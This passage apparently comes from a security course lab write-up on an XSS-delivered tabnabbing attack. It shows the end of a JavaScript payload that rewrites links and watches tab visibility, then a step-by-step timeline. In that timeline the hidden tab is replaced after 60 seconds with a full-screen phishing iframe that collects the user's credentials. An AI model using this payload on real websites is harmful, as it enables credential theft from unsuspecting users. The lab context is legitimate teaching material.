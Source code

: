 ```javascript
    m();
  }).observe(document.body, {
    childList: true,
    subtree: true,
  });
}

// Set up event listeners
document.addEventListener("DOMContentLoaded", o);
document.addEventListener("visibilitychange", v);
```

## Attack Flow

### Detailed Timeline

```
t=0s:     User visits malicious URL
          XSS payload executes
          window.gotYou = 1 (autograder flag set)
          DOMContentLoaded event fires
          o() function runs:
            - m() modifies all links to have target="_blank"
            - MutationObserver starts watching for new links

t=5s:     User sees a link on the page
          User clicks the link
          Link opens in NEW TAB (because target="_blank")
          Original tab becomes hidden
          visibilitychange event fires
          v() function runs:
            - document.hidden = true
            - a = 1 (away flag set)
            - s() starts timer

t=6s:     Timer tick: a=1, ++t=1 (1 < 60, continue)
t=7s:     Timer tick: a=1, ++t=2 (2 < 60, continue)
t=8s:     Timer tick: a=1, ++t=3 (3 < 60, continue)
...
t=65s:    Timer tick: a=1, ++t=60 (60 >= 60, TRIGGER!)
          clearInterval(i) (stop timer)
          document.body.innerHTML = '' (clear page)
          Create iframe with src="/tabnabbing/gguruvelli3"
          Iframe covers entire viewport

t=70s:    User finishes reading new tab
          User clicks back to original tab
          User sees phishing page (looks like login expired)
          User enters credentials
          Credentials sent to attacker
```
